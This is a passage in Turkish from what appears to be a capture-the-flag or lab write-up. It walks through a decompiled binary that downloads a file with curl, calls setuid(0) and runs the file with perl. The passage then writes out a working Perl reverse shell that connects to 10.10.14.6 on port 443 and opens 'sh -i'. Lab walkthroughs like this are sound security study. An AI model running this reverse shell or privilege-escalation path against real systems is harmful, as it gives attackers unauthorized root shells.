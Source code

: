 Daha sonra bir web isteği yapmak için curl kullanır:

```
  curl_object = curl_easy_init();
  curl_easy_setopt(curl_object,0x2712,argv[1]);
  curl_easy_setopt(curl_object,0x2711,filehandle);
  curl_easy_setopt(curl_object,0x2d,1);
  res = curl_easy_perform(curl_object);
```

Öncelikle URL'yi (0x2712), komut satırından alınan ilk argümana ayarlar. Ardından, output dosyasını (0x2711), `lDnxUysaQn` dosyasından alınan filehandle'a ayarlar. 0x2d verbose modunu etkinleştirir ve ardından `curl` komutunu çalıştırır.

Eğer `curl` başarılı olursa, şu işlemleri gerçekleştirir:

```
  if (res == 0) {
    res = snprintf((char *)0x0,0,"%s",argv[2]);
    arg2_str = (char *)malloc((long)res + 1);
    snprintf(arg2_str,(long)res + 1,"%s",argv[2]);
    res = snprintf((char *)0x0,0,"perl ./%s",arg2_str);
    cmd_str = (char *)malloc((long)res + 1);
    snprintf(cmd_str,(long)res + 1,"perl ./%s",arg2_str);
    fclose(filehandle);
    curl_easy_cleanup(curl_object);
    setuid(0);
    system(cmd_str);
    system("rm -f ./lDnxUysaQn");
    return 0;
  }
  puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

Bu kod, `perl ./[arg2]` gibi bir komut stringi  oluşturmak için garip bir yol izliyor. İndirilen her neyse, bunu `perl` ile çalıştırıyor. Ardından, bu dosyayı silmeyi de içeren bir temizlik işlemi yapıyor ve geri dönüyor.

Bu dosya, bir adli bilişim firması tarafından analiz edilen bir **zararlı yazılım** parçası olarak değerlendirilmediği sürece pek mantıklı görünmüyor.

### Execution

#### Obvious [Option 1]

Bir shell elde etmek için basit bir Perl reverse shell yazacağım (revshells.com'u temel alarak):

```
use Socket;
$i="10.10.14.6";
$p=443;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {
    open(STDIN,">&S");
    open(STDOUT,">&S");
    open(STDERR,">&S");
    exec("sh -i");
}
```
